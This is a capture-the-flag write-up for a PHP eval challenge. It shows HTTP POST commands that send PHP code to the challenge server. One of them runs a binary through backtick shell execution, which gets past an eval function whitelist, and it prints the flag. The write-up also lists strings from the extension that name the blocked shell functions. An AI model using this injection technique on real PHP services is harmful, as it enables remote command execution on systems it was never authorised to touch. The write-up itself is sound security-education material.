


# PHP Eval White-List - Web/Pwn - 104pts

```
PHP Eval White-List
PHP was dangerous, so we've fixed it!
http://c67f8ffd.quals2018.oooverflow.io
Files:

./websec_eval_wl.so
```

## Screenshot



## Solve

Seem to be an open RCE (Remote Code Execution) with some retrictions ... As some others challenges from the same CTF gave a PHP Zend framwork `.so`.

By doing a simple `phpinfo();` we can see that the restriction follows a first rule:

`No file operation outside of the current directory (this is what the open_basedir call do)`



But after failing different basic tests:

`prevent you from accessing the flag binary up the current folder.`

```sh
$ http --form POST 'http://c67f8ffd.quals2018.oooverflow.io' 'submit=Run!' 'd=echo include("../flag");'
$ http --form POST 'http://c67f8ffd.quals2018.oooverflow.io' 'submit=Run!' 'd=echo file_get_contents("../flag");'
$ http --form POST 'http://c67f8ffd.quals2018.oooverflow.io' 'submit=Run!' 'd=echo include("../flag");'
```

Go it :)
```sh
$ http --form POST 'http://c67f8ffd.quals2018.oooverflow.io' 'submit=Run!' 'd=echo `../flag`;' | grep OOO | tr -d '\n\t'
```
```
OOO{Fortunately_php_has_some_rock_solid_defense_in_depth_mecanisms,_so-everything_is_fine.}
```

There is some strings in the given in the .so that let us think that some retrictions was also made on the function call (or whitelisting).
But what is the point ? we got the flag

```
The function '%s' isn't in the eval whitelist, dropping its call.
/bin/id
system
Found '%s', read to hook.
'%s' is hooked!
Init done!
function_pointer_saving
enabled
websec_eval_wl support
strcmp
/home/vagrant/src/utils.c
shell_exec
proc_open
passthru
popen
pcntl_exec
websec_eval_wl
```
